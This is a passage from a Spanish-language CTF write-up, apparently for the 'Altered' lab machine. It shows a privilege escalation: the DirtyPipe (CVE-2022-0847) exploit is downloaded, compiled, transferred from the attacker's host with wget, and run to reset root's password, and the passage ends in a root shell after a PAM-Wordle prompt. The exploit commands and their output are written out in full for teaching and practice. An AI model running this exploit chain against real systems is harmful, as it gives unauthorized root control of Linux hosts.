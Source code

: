 - Nos descargamos el exploit.

```bash
❯ wget https://raw.githubusercontent.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/refs/heads/main/exploit-1.c
```

- Ahora compilamos.

```bash
❯ gcc exploit-1.c -o exploit2 -static
```

- Lo pasamos a la maquina.

```bash
www-data@altered:/dev/shm$ wget http://10.10.14.24/exploit2
```

- Lo ejecutamos.

```bash
www-data@altered:/dev/shm$ ./exploit2 
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
system() function call seems to have failed :(
www-data@altered:/dev/shm$ ./exploit2 
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
system() function call seems to have failed :(
```

- Ahora tenemos la contraseña.

```bash
www-data@altered:/dev/shm$ su -
--- Welcome to PAM-Wordle! ---

A five character [a-z] word has been selected.
You have 6 attempts to guess the word.

After each guess you will recieve a hint which indicates:
? - what letters are wrong.
* - what letters are in the wrong spot.
[a-z] - what letters are correct.

--- Attempt 1 of 6 ---
Word: chmod
Hint->??*??
--- Attempt 2 of 6 ---
Word: mkdir
Hint->*??*?
--- Attempt 3 of 6 ---
Word: shell
Hint->??*??
--- Attempt 4 of 6 ---
Word: email
Invalid guess: unknown word.
Word: cmake
Hint->?*??e
--- Attempt 5 of 6 ---
Word: uname
Hint->u??me
--- Attempt 6 of 6 ---
Word: utime
Correct!
Password:
# whoami
root
```